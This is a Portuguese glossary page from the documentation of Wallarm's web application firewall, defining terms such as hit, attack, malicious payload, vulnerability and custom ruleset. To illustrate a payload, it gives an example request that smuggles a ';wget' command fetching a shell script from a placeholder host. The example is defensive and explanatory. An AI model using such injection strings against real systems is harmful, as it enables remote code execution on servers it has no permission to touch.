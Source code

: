 # Glossário

O glossário abrange as principais entidades do Wallarm para fornecer uma melhor compreensão da plataforma.

## Hit

Um hit é uma solicitação maliciosa serializada (solicitação maliciosa original e metadados adicionados pelo nó de filtragem), por exemplo:

![Exemplo de hit](images/user-guides/events/analyze-attack-raw.png)

[Detalhes dos parâmetros de hit](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## Ataque

Um ataque é um único hit ou vários hits agrupados pelas seguintes características:

* O mesmo tipo de ataque, o parâmetro com a carga maliciosa e o endereço ao qual os hits foram enviados. Os hits podem vir dos mesmos ou diferentes endereços IP e ter diferentes valores das cargas maliciosas dentro de um tipo de ataque.

   Este método de agrupamento de hits é básico e aplicado a todos os hits.
* O mesmo endereço IP de origem se a [trigger](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) apropriado estiver ativado. Outros valores de parâmetros de hit podem variar.

   Este método de agrupamento de hits funciona para todos os hits, exceto para os do tipo Brute force, Brute force, Forced browsing, BOLA (IDOR), Limite de recursos, Bomba de dados e tipos de ataque de patch virtual.

   Se os hits são agrupados por este método, o botão [**Marcar como falso-positivo**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) e a opção de [verificação ativa](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) não estão disponíveis para o ataque.

Os métodos de agrupamento de hits listados não se excluem. Se os hits possuírem características de ambos os métodos, todos serão agrupados em um ataque.

Um exemplo de um ataque incluindo um único hit:

![Ataque com um hit](images/glossary/attack-with-one-hit-example.png)

Um exemplo de um ataque incluindo muitos hits:

![Ataque com vários hits](images/glossary/attack-with-several-hits-example.png)

## Carga Maliciosa

Uma parte de uma solicitação original contendo os seguintes elementos:

* Sinais de ataque detectados em uma solicitação. Se vários sinais de ataque caracterizando o mesmo tipo de ataque forem detectados em uma solicitação, apenas o primeiro sinal será registrado como uma carga.
* Contexto do sinal de ataque. O contexto é um conjunto de símbolos que antecedem e fecham os sinais de ataque detectados. Como o comprimento de uma carga é limitado, o contexto pode ser omitido se um sinal de ataque for de comprimento total da carga.

Por exemplo:

* Solicitação:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Carga maliciosa:

    ```bash
    ;wget+http://s
    ```

    Nesta carga, `;wget+` é o sinal de ataque [RCE](attacks-vulns-list.md#remote-code-execution-rce) e outra parte da carga é o contexto do sinal de ataque.

Como os sinais de ataque não são usados para detectar [ataques comportamentais](about-wallarm/protecting-against-attacks.md#behavioral-attacks), solicitações enviadas como parte de ataques comportamentais têm cargas vazias.

## Vulnerabilidade
Uma vulnerabilidade é um erro cometido por negligência ou informações inadequadas ao construir ou implementar uma aplicação web que pode levar a um risco de segurança da informação.

Os riscos de segurança da informação são:

* Acesso não autorizado a dados; por exemplo, acesso para ler e modificar os dados do usuário.
* Negação de serviço.
* Corrupção de dados e outros.

O tráfego da internet pode ser usado para detectar as vulnerabilidades, que é uma das funções do Wallarm, entre outras.

## Incidente de Segurança

Um incidente de segurança é uma ocorrência de exploração de vulnerabilidade. Um incidente é um [ataque](#attack) direcionado a uma vulnerabilidade confirmada.

Um incidente, como um ataque, é uma entidade externa ao seu sistema e é uma característica da Internet externa, não do sistema em si. Apesar do fato de que os ataques direcionados às vulnerabilidades existentes são minoria, eles são da maior importância em termos de segurança da informação. O Wallarm detecta automaticamente os ataques direcionados às vulnerabilidades existentes e os exibe como um objeto separado - incidente.

## Buffer Circular
Um buffer circular é uma estrutura de dados que utiliza um único buffer de tamanho fixo como se estivesse conectado de ponta a ponta.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Circular_buffer).

## Conjunto de regras personalizadas (o termo anterior é LOM)

Um conjunto de regras personalizadas é um conjunto de regras de segurança compiladas baixadas pelos nós do Wallarm do Cloud do Wallarm.

As regras personalizadas permitem que você configure regras individuais para o processamento de tráfego, por exemplo:

* Mascara dados sensíveis antes de carregar para o Wallarm Cloud
* Crie indicadores de ataque baseados em expressões regulares
* Aplique um patch virtual bloqueando solicitações que exploram uma vulnerabilidade ativa
* Desative a detecção de ataque em certas solicitações, etc.

Um conjunto de regras personalizadas não está vazio por padrão, ele contém as regras criadas para todos os clientes registrados no cloud, por exemplo, a regra do modo de filtragem com o valor da [**aba Configurações → Geral**](user-guides/settings/general.md).

[Mais detalhes sobre conjuntos de regras personalizadas](user-guides/rules/rules.md)

## Solicitação Inválida
Uma solicitação que foi verificada pelo nó de filtro e não coincide com as regras do LOM.

## Proxy Reverso
Um proxy reverso é um tipo de servidor proxy que recupera recursos em nome de um cliente de um servidor e retorna os recursos para o cliente como se eles se originassem do próprio servidor da web.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Reverse_proxy).

## Autoridade Certificadora
Uma autoridade certificadora é uma entidade que emite certificados digitais.
[Veja na Wikipedia](https://en.wikipedia.org/wiki/Certificate_authority).
